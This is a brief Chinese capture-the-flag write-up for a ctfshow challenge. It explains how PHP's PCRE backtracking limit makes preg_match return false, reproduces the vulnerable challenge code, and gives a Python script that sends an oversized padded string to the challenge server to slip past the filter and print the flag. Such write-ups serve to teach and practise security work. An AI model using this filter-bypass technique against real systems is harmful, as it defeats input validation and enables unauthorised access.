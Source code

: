 # 知识点
### 正则(pcre)最大回溯/递归限制
[https://www.laruence.com/2010/06/08/1579.html](https://www.laruence.com/2010/06/08/1579.html) 大概意思就是在php中正则表达式进行匹配有一定的限制，超过限制直接返回false
# 思路
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```
```python
import requests


str = 'Ki1ro'*200000 + '36Dctfshow'

url = 'http://63baf0c4-0397-4805-885b-5f36093d356b.challenge.ctf.show/'
data = {
    'f': str
}
req = requests.post(url=url, data=data)
print(req.text)

```

